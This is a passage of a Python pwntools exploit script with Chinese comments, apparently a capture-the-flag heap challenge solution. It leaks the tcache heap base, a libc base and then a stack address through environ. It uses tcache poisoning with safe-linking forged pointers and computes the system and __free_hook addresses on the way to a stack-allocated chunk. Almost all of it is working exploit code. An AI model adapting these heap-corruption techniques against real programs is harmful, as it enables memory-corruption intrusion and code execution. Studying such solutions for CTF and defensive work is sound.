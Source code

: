   ```python
       p.sendlineafter(b':',str(index).encode())
       p.sendlineafter(b':',str(len(content)).encode())
       p.sendafter(b':',content)
   
   def show(index):
       p.sendlineafter(b':',b'3')
       p.sendlineafter(b':',str(index).encode())
   
   def free(index):
       p.sendlineafter(b':','2')
       p.sendlineafter(b':',str(index).encode())
   
   def fd_glibc32(tcache_base,target_addr):
       success("fake_addr==>"+hex(target_addr))
       payload = p64(tcache_base^(target_addr))
       return payload
   
   #获取堆的基地址tcache
   add()   #0
   add()   #1
   add()   #2
   free(0)
   show(0)
   p.recvuntil(b"\x0a")
   tcache_base = u64(p.recv(5).ljust(8,b"\x00"))
   success("tcache_base==>"+hex(tcache_base))
   
   for i in range(6):
       edit(0,p64(0)*2)
       free(0)
   
   free(1)
   edit(1,b"\x01")
   show(1)
   p.recv()
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))-1
   success("main_arena_unsortbin_addr==>"+hex(addr))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
    
   #计算__free_hook和system地址
   system_addr = libc_base+libc.sym["system"]
   free_hook_addr = libc_base+libc.sym["__free_hook"]
   success("system_addr==>"+hex(system_addr))
   success("free_hook_addr==>"+hex(free_hook_addr))
   environ_addr = libc_base + libc.sym["environ"]
   success("environ_addr==>"+hex(environ_addr))
   
   payload = fd_glibc32(tcache_base,environ_addr)
   edit(0,payload)
   add()   #3
   add()   #4
   show(4)
   p.recv()
   stack_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))-0x138
   success("stack_addr==>"+hex(stack_addr))
   
   #申请到栈上的chunk
   free(3)
   edit(3,p64(0)*2)
   free(3)
   ```